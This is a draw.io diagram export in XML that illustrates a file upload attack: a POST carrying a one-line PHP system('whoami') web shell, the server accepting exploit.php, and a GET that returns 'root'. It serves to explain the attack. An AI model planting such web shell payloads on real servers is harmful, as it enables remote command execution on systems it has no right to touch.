

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="744" dy="417" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="RTVWldS7VL4LRzJInbJo-10" value="Server" style="rounded=0;whiteSpace=wrap;html=1;dashed=1;opacity=20;" vertex="1" parent="1">
      <mxGeometry x="490" y="300" width="210" height="210" as="geometry" />
    </mxCell>
    <mxCell id="RTVWldS7VL4LRzJInbJo-12" value="&lt;font style=&quot;font-size: 14px;&quot;&gt;HTTP/1.1 200 OK&lt;br style=&quot;font-size: 14px;&quot;&gt;&lt;/font&gt;File Uploaded : exploit.php" style="whiteSpace=wrap;html=1;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
      <mxGeometry x="502.5" y="310" width="185" height="50" as="geometry" />
    </mxCell>
    <mxCell id="RTVWldS7VL4LRzJInbJo-16" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;startArrow=classic;startFill=1;" edge="1" parent="1" source="RTVWldS7VL4LRzJInbJo-13" target="RTVWldS7VL4LRzJInbJo-12">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="RTVWldS7VL4LRzJInbJo-13" value="POST /images&amp;nbsp; HTTP/1.1&lt;br&gt;&amp;lt;?php echo system(&quot;whoami&quot;);?&amp;gt;" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1">
      <mxGeometry x="170" y="305" width="240" height="60" as="geometry" />
    </mxCell>
    <mxCell id="RTVWldS7VL4LRzJInbJo-15" value="GET /images/exploit.php HTTP/1.1" style="rounded=0;whiteSpace=wrap;html=1;fillColor=#dae8fc;strokeColor=#6c8ebf;" vertex="1" parent="1">
      <mxGeometry x="165" y="430" width="250" height="60" as="geometry" />
    </mxCell>
    <mxCell id="RTVWldS7VL4LRzJInbJo-20" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=1;entryY=0.5;entryDx=0;entryDy=0;endArrow=classic;endFill=1;startArrow=classic;startFill=1;" edge="1" parent="1" source="RTVWldS7VL4LRzJInbJo-17" target="RTVWldS7VL4LRzJInbJo-15">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="RTVWldS7VL4LRzJInbJo-17" value="HTTP/1.1 200 OK&lt;div&gt;root&lt;/div&gt;" style="whiteSpace=wrap;html=1;fillColor=#dae8fc;strokeColor=#6c8ebf;" vertex="1" parent="1">
      <mxGeometry x="502.5" y="430" width="190" height="60" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>